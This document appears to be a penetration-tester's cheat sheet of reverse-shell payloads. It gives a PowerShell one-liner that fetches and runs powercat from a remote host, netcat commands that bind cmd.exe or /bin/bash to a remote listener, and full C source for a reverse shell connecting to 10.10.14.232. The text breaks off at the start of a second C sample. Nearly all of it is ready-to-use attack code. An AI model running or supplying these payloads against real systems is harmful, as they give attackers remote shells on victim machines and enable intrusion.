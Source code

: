 ```
```

#### PowerShell with powercat:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.240:8000/powercat.ps1');powercat -c 192.168.45.240 -p 8888 -e powershell"
```

#### Netcat:
```bash
nc.exe -nv 192.168.45.240 4444 -e cmd.exe
```

#### Need to wrap it in a statement?
```bash
bash -c 'nc -nv 192.168.1.7 9090 -e /bin/bash'
```

#### C
```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4444;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.14.232");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"bash", NULL};
    execvp("bash", argv);

    return 0;       
}
```
  -OR-
```c
#include <stdlib.h>
#include <unistd.h>
#include <sys/wait.h>

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

void initCustomLayer()
{
}

void updateCustomIn()
```